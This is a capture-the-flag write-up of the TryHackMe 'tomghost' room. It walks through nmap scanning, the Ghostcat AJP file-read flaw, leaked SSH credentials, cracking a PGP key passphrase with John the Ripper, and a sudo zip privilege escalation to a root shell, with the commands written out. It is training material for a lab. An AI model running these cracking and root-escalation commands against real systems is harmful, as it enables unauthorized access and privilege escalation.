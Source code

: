 ## tomghost - Try Hack Me
Easy box from tryhackme

`export IP=10.10.170.225`

## 1. Overveiw

**NMAP**
**Gobuster**
****
****
****
Link to the machine: https://tryhackme.com/room/tomghost

Start with a nmap scan which returns:
```sh
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  domain
8009/tcp open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http-proxy
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
```



## user.txt

First we do a nmap `nmap -sC -sV @IP`
Output is the following:
```sh
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that 8009 is open running apj13.
A quick google search tells us this is vulnerable.
Seemes to be a local file inclusion vulnerability called tomghost that we can use.

### Apache JServ Protocol - AJP
Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited.

ExploitDB has a python script that can help us conduct the AJP requests to the server. It is pretty complex, but similar to a HTTP request. We use the script in order to just see if we geta response. When we run the script on the server, it replies witht the following string:

```sh
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

```

So we have a username and password. We can use this to log into the server on ssh.

We are in! Then we go to the home folder and `cd` in the `merlin` user. Here we find the user.txt, and we have permission to read it.

`python3 -m http.server 9001`

And then we wget the pgp and gpg files onto our machine. Old switcharoo.





## root.txt

There is a `.asc` file containing a private PGP private Key Block, and a .pgp file that contains some raw data that we cant read.

We can use johntheripper in order to create a hash for this and try to compare it with passwords from rockyou.
We do the ffollowing:
```sh
gpg2john tryhackme.asc > hash2
john --wordlist=/usr/share/wordlists/rockyou.txt --format=gpg hash2
```

And john finds the following password:
`alexandru        (tryhackme)`

This is the gpg password for the user. So we can add the private key to our list:
`gpg --import tryhackme.asc`

Then we supply the password that we just found.
And we can now decrypt the credential.pgp file:

`gpg -d credential.pgp`

- `-d` for decrypt.

We are then presented with the following username and password
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

After we log into merlin, we try the classic low hangin fruit `sudo -l`
and we see that merlin is allowed to run `zip`.
We then go to gtfobins and find a way to spawn a root shell.


Here are the commands to spawn a root shell:
```sh
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

The first line creates a temporary file or directory, and `-u` makes it not create anything, just printing a name.
Line 2 we use `zip` with `sudo` on that file or directory `TF` with the `/etc/hosts` file. This will create a zipfile called `TF.zip` containing the /etc/hosts file.
Then also in line 2 we do a `-T` and `-TT` which will use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used.
And using the `-T -TT` we follow up with a shell for root using `'sh #'`.
Finally the tmp file/directory is deleted using the `sudo rm`.

We get a root shell and can just cat out the flag.

